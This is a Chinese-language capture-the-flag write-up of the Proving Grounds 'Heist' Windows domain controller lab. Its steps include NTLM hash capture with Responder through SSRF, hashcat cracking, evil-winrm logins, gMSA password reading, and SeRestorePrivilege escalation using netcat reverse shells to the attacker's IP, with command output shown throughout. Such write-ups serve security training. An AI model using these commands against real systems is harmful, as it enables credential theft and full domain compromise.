




# ProvingGrounds Heist Writeup


## Heist

这是第21台，Windows系统，难度Hard，名称 Heist

192.168.201.165


## PortScan

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP]
└─$  sudo nmap -n -r --min-rate=3500 -sSV 192.168.201.165 -T4 -p-         
[sudo] xavier 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-06 13:24 CST
Nmap scan report for 192.168.201.165
Host is up (0.18s latency).
Not shown: 65520 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-06 05:25:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp open  http          Werkzeug httpd 2.0.1 (Python 3.9.0)
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.83 seconds
```


## InitAccess

### 8080-Web

端口扫描发现8080的Web服务，访问后界面如下：



测试发现主要功能就是提供一个加载远程URL的作用，存在SSRF，远程文件读取，但是无法加载webshell，命令无法执行。



这时候想到还有一种利用手法，通过Responder抓取NTLM Hash

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Heist]
└─$ sudo responder -I tun0
…… 
[&#43;] Listening for events...

[HTTP] NTLMv2 Client   : 192.168.201.165
[HTTP] NTLMv2 Username : HEIST\enox
[HTTP] NTLMv2 Hash     : enox::HEIST:99fdc88fbe17e2ea:E30843CC9021CE657CE6B1BEAE267F2C:0101000000000000FC1C1B27C358DA01CFED432CAA26B82D0000000002000800430053004900430001001E00570049004E002D0031005600480034003400390041004A004700310034000400140043005300490043002E004C004F00430041004C0003003400570049004E002D0031005600480034003400390041004A004700310034002E0043005300490043002E004C004F00430041004C000500140043005300490043002E004C004F00430041004C0008003000300000000000000000000000003000002184FB7FA927C34729731C2A223CA1542BCB740A2C3C6CB8F29853E2F03C2D9C0A001000000000000000000000000000000000000900260048005400540050002F003100390032002E003100360038002E00340035002E003200320032000000000000000000

```

破解Hash

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Heist]
└─$ hashcat -m 5600 -a 0 1.hash /usr/share/wordlists/rockyou.txt --force --quiet
ENOX::HEIST:99fdc88fbe17e2ea:e30843cc9021ce657ce6b1beae267f2c:0101000000000000fc1c1b27c358da01cfed432caa26b82d0000000002000800430053004900430001001e00570049004e002d0031005600480034003400390041004a004700310034000400140043005300490043002e004c004f00430041004c0003003400570049004e002d0031005600480034003400390041004a004700310034002e0043005300490043002e004c004f00430041004c000500140043005300490043002e004c004f00430041004c0008003000300000000000000000000000003000002184fb7fa927c34729731c2a223ca1542bcb740a2c3c6cb8f29853e2f03c2d9c0a001000000000000000000000000000000000000900260048005400540050002f003100390032002e003100360038002e00340035002e003200320032000000000000000000:california
```

得到一组用户名密码：`enox/california`


使用这组用户名密码尝试登录，使用evil-winrm登录成功。

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Heist]
└─$ evil-winrm -u enox -p california -i 192.168.201.165                 

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\enox\Documents&gt; whoami
heist\enox
*Evil-WinRM* PS C:\Users\enox\Documents&gt; 
*Evil-WinRM* PS C:\Users\enox\Documents&gt; Get-ChildItem -Path C:\Users\ -Include local.txt -File -Recurse -ErrorAction SilentlyContinue

    Directory: C:\Users\enox\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/5/2024   9:21 PM             34 local.txt
*Evil-WinRM* PS C:\Users\enox\Documents&gt; type C:\Users\enox\Desktop\local.txt
6d070d8770a2ef6468fab560c6f886f1

```


## PrivE

上传winpeas进行信息收集

```shell
*Evil-WinRM* PS C:\Users\enox\Documents&gt; upload winPEASany.exe
*Evil-WinRM* PS C:\Users\enox\Documents&gt; ./winPEASany.exe &gt; 1.txt
*Evil-WinRM* PS C:\Users\enox\Documents&gt; download 1.txt
```

上传SharpHound 进行域信息收集

```shell
*Evil-WinRM* PS C:\Users\enox\Documents&gt; upload SharpHound.exe
*Evil-WinRM* PS C:\Users\enox\Documents&gt; ./SharpHound.exe -c all --OutputPrefix &#34;Heist&#34;
*Evil-WinRM* PS C:\Users\enox\Documents&gt; download Heist_20240205234135_BloodHound.zip
```

手动信息收集

```sh
# 用户信息和组信息
*Evil-WinRM* PS C:\Users\enox\Documents&gt; net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            enox                     Guest
krbtgt
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\enox\Documents&gt; net group

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Web Admins
The command completed with one or more errors.
```

根据BloodHound信息搜集分析的结果看，Web Admins下有个SVC_Apache用户



根据到高价值目标的最短路径分析发现，SVC_APACHE是我们的下一个目标。



### SVC_APACHE

根据上图注意到WebADMIN组可以检索GMSA SVC_APACHE的密码。

GMSA 的预期用途是允许某些计算机帐户检索 GMSA 的密码，然后作为 GMSA 运行本地服务。 控制授权主体的攻击者可能会滥用该特权来冒充 GMSA。

```sh
*Evil-WinRM* PS C:\Users\enox\Documents&gt; net user enox
User name                    enox
Full Name
Comment
User&#39;s comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/31/2021 5:09:05 AM
Password expires             Never
Password changeable          9/1/2021 5:09:05 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   11/14/2023 9:10:55 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Web Admins           *Domain Users
The command completed successfully.

```

检查下当前账户enox，发现他就是Web Admins组用户，那就可以利用GMSA读取SVC_APACHE的密码。

我们使用 [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) 进行利用。

```sh
*Evil-WinRM* PS C:\Users\enox\Documents&gt; ./gmsapasswordreader.exe --accountname svc_apache
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 83AC7FECFBF44780E3AAF5D04DD368A5
[*]       aes128_cts_hmac_sha1 : 08E643C43F775FAC782EDBB04DD40541
[*]       aes256_cts_hmac_sha1 : 588C2BB865E771ECAADCB48ECCF4BCBCD421BF329B0133A213C83086F1A2E3D7
[*]       des_cbc_md5          : 9E340723700454E9

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 0AFF0D9DFA8B436E6688697B0A47B50C
[*]       aes128_cts_hmac_sha1 : C958BEE96DEE78F9035F460B91EC6D86
[*]       aes256_cts_hmac_sha1 : D3C18DAF21128CAFEAECE5BFF6599A0A4DFB2E9BE22F6CFE13677688B0A34988
[*]       des_cbc_md5          : 0804169DCECB6102
```

用当前Hash值使用Evil-WinRM进行登录

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Heist]
└─$ evil-winrm -u &#39;svc_apache$&#39; -H &#39;0AFF0D9DFA8B436E6688697B0A47B50C&#39; -i 192.168.201.165

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                 

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_apache$\Documents&gt; whoami
heist\svc_apache$
*Evil-WinRM* PS C:\Users\svc_apache$\Documents&gt; 
```

检查当前用户权限

```sh
*Evil-WinRM* PS C:\Users\svc_apache$\Documents&gt; whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

发现有SeRestorePrivilege权限，可以利用

### SeRestorePrivilege

这里使用[SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)进行提权。编译好后将其上传。

```sh
# 执行报错
*Evil-WinRM* PS C:\Users\svc_apache$\Documents&gt; ./SeRestoreAbuse.exe &#34;cmd /c whoami&#34;

# 有报错，但是nc执行了，执行一段时间后就会断开
*Evil-WinRM* PS C:\Users\svc_apache$\Documents&gt; ./SeRestoreAbuse.exe &#34;C:\tmp\nc.exe 192.168.45.222 4444 -e powershell&#34;
```

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Heist]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.222] from (UNKNOWN) [192.168.201.165] 50526
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32&gt; whoami
whoami
nt authority\system
PS C:\Windows\system32&gt; dir C:\users\administrator\desktop\
dir C:\users\administrator\desktop\

    Directory: C:\users\administrator\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/5/2024   9:21 PM             34 proof.txt
```


那就只能在nc执行期间，迅速的再建立一个shell

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Heist]
└─$ nc -nlvp 4444         
listening on [any] 4444 ...
connect to [192.168.45.222] from (UNKNOWN) [192.168.201.165] 50531
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32&gt; C:\tmp\nc.exe 192.168.45.222 5555 -e powershell
C:\tmp\nc.exe 192.168.45.222 5555 -e powershell


┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Heist]
└─$ nc -nlvp 5555
listening on [any] 5555 ...
connect to [192.168.45.222] from (UNKNOWN) [192.168.201.165] 50534
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32&gt; type C:\users\administrator\desktop\proof.txt
type C:\users\administrator\desktop\proof.txt
4af2fa343310e6880347c964d98caea1
PS C:\Windows\system32&gt; 

```


## Flag

```
type C:\Users\enox\Desktop\local.txt
6d070d8770a2ef6468fab560c6f886f1

type C:\users\administrator\desktop\proof.txt
4af2fa343310e6880347c964d98caea1
```


---

> 作者: Xavier  
> URL: http://localhost:1313/posts/provinggrounds-heist/  

